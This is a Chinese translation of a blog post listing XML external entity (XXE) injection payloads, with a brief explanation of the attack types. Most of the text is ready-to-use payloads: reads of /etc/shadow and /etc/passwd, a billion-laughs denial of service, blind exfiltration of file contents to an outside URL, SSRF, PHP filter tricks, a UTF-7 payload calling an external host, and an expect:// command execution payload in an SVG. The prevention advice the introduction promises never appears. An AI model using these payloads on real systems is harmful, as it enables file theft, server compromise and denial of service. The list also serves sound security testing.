

# XML 外部实体-XXE 注入有效负载列表

> 原文：<https://kalilinuxtutorials.com/xml-external-entity-xxe-injection-payload-list/>

[](https://1.bp.blogspot.com/-vEGOPV2PdNM/Xd97Ll9FL0I/AAAAAAAADqY/PVdi4_CErNMNSwZgmuM_jPWqIpGEw36eACLcBGAsYHQ/s1600/xxe-injection.png)

在本节中，我们将解释什么是 XML 外部实体注入，描述一些常见的示例，解释如何发现和利用各种 XXE 注入，并总结如何防止 XXE 注入攻击。

**什么是 XML 外部实体注入？**

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以升级 XXE 攻击，通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)攻击来危害底层服务器或其他后端基础设施。

XXE 攻击有多种类型:

| ***【xx 型袭击】*** | *描述* |
| --- | --- |
| 利用 XXE 检索文件 | 其中定义了包含文件内容的外部实体，并在应用程序的响应中返回。 |
| 利用 XXE 实施 SSRF 袭击 | 其中外部实体是基于到后端系统的 URL 定义的。 |
| 利用带外盲 XXE 渗出数据 | 敏感数据从应用服务器传输到攻击者控制的系统。 |
| 利用盲 XXE 通过错误消息检索数据 | 攻击者可以在其中触发包含敏感数据的解析错误消息。 |

**也可阅读-[Antispy:免费但强大的反病毒软件& Rootkits 工具包](https://kalilinuxtutorials.com/antispy-free-but-powerful-anti-virus-rootkits-toolkit/)**

**XML 外部实体(XXE)注入负载**

**XXE:基本 XML 示例**

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo> 
```

**XXE:实体示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo> 
```

**XXE:文件公开**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo> 
```

**XXE:拒绝服务示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag> 
```

**XXE:本地文件包含示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo> 
```

XXE:盲本地文件包含示例(当第一个案例没有返回任何内容时。)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo> 
```

**XXE:访问控制旁路(加载受限资源–PHP 示例)**

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo> 
```

**XXE:SSRF(服务器端请求伪造)示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo> 
```

**XXE:(远程攻击–通过外部 Xml 包含)示例**

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz> 
```

**XXE: UTF-7 Exmaple**

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4 
```

**xx:base64 编码**

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/> 
```

**XXE: XXE 内 SOAP 示例**

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body> 
```

**xx:xxin SVG**

```
<svg  xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg> 
```

[**Download**](https://github.com/payloadbox/xxe-injection-payload-list)